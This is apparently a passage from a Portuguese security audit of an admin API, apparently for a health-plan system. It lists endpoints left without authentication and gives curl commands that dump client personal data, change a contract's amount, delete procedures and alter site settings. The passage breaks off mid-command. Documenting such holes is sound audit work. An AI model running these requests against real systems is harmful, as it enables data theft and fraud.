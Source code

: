```typescript
// Guias
GET  /admin/api/guides                  // ❌ Todas guias
GET  /admin/api/guides/with-network-units // ❌ Guias com unidades
GET  /admin/api/guides/:id              // ❌ Qualquer guia

// Planos
GET  /admin/api/plans                   // ❌ Todos os planos
GET  /admin/api/plans/active            // ❌ Planos ativos
GET  /admin/api/plans/:id               // ❌ Qualquer plano
GET  /admin/api/plans/:id/procedures    // ❌ Procedimentos de planos
POST /admin/api/plans                   // ❌ CRIAR plano sem auth!
PUT  /admin/api/plans/:id               // ❌ MODIFICAR plano sem auth!

// Configurações do Site
POST /admin/api/settings/upload-image         // ❌ Upload sem auth!
POST /admin/api/settings/chat/upload-image    // ❌ Upload chat sem auth!
GET  /admin/api/settings/site                 // ❌ Config do site
PUT  /admin/api/settings/site                 // ❌ MODIFICAR config sem auth!
GET  /admin/api/settings/rules                // ❌ Regras do sistema
PUT  /admin/api/settings/rules                // ❌ MODIFICAR regras sem auth!
GET  /admin/api/settings/chat                 // ❌ Config do chat
PUT  /admin/api/settings/chat                 // ❌ MODIFICAR chat sem auth!

// Unidades de Rede
GET  /admin/api/network-units/:id       // ❌ Qualquer unidade
PUT  /admin/api/network-units/:id       // ❌ MODIFICAR unidade sem auth!
DELETE /admin/api/network-units/:id     // ❌ DELETAR unidade sem auth!

// Procedimentos
GET  /admin/api/procedures              // ❌ Todos procedimentos
POST /admin/api/procedures              // ❌ CRIAR procedimento sem auth!
PUT  /admin/api/procedures/:id          // ❌ MODIFICAR procedimento sem auth!
DELETE /admin/api/procedures/:id        // ❌ DELETAR procedimento sem auth!
GET  /admin/api/procedures/:id/plans    // ❌ Planos de procedimentos
PUT  /admin/api/procedures/:id/plans    // ❌ MODIFICAR relação sem auth!

// Submissões de Contato
GET  /admin/api/contact-submissions     // ❌ Todas submissões de contato
```

**Vetor de Ataque - Acesso Total Sem Autenticação:**
```bash
# 🚨 ATACANTE NÃO PRECISA DE LOGIN!
# Pode acessar TUDO diretamente via API

# Listar TODOS os clientes
curl http://api/admin/api/clients
# Retorna: TODOS os clientes com dados completos (CPF, email, telefone, etc)

# Ver QUALQUER contrato
curl http://api/admin/api/contracts/abc-123
# Retorna: Dados completos do contrato

# MODIFICAR contrato (mudar valores!)
curl -X PATCH http://api/admin/api/contracts/abc-123 \
  -d '{"monthlyAmount":"1","status":"cancelled"}'
# SUCESSO! Contrato modificado sem autenticação!

# DELETAR procedimento
curl -X DELETE http://api/admin/api/procedures/proc-123
# SUCESSO! Procedimento deletado!

# MODIFICAR configurações do site
curl -X PUT http://api/admin/api/settings/site \
```